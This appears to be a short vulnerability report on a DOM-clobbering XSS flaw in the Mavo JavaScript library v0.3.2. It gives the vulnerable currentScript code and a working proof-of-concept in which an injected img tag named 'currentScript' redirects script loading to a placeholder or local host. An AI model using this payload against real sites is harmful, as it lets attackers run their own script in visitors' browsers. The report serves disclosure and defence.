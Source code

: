 ## Mavo

### Meta

+ Library: Mavo
+ Stars: 2.8K
+ Version: v0.3.2
+ Fingerprint: `typeof Mavo !== 'undefined' && Mavo.hasOwnProperty('Plugins')`
+ Payload: ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>```
+ Impact: XSS
+ Status: Reported
+ CVE: N/A
+ Foundby: TheHulk

### Library

https://github.com/mavoweb/mavo

URL:
+ `https://cdnjs.cloudflare.com/ajax/libs/mavo/0.3.2/mavo.es5.js`
+ `https://cdnjs.cloudflare.com/ajax/libs/mavo/0.3.2/mavo.es5.min.js`
+ `https://cdnjs.cloudflare.com/ajax/libs/mavo/0.3.2/mavo.js`
+ `https://cdnjs.cloudflare.com/ajax/libs/mavo/0.3.2/mavo.min.js`
+ `https://cdn.jsdelivr.net/npm/mavo@0.3.2/dist/mavo.min.js`

### Vulnerable Code Snippet

```javascript
if (o.dependencies) {
    let base = document.currentScript? document.currentScript.src : location;
    let dependencies = o.dependencies.map(url => Mavo.load(url, base));
    ready.push(...dependencies);
}
```

## PoC

```
<!--Library-->
<script src="https://get.mavo.io/stable/mavo.js"></script>
<link rel="stylesheet" href="https://get.mavo.io/stable/mavo.css">
<script>
(function ($, $$) {

Mavo.Plugins.register("myplugin", {
	dependencies: ["a.js"],
});

})(Bliss, Bliss.$);
</script>
<!--Library-->

<!--Payload-->
<img name=currentScript src="http://localhost:9999"></img>
<!--Payload-->
```
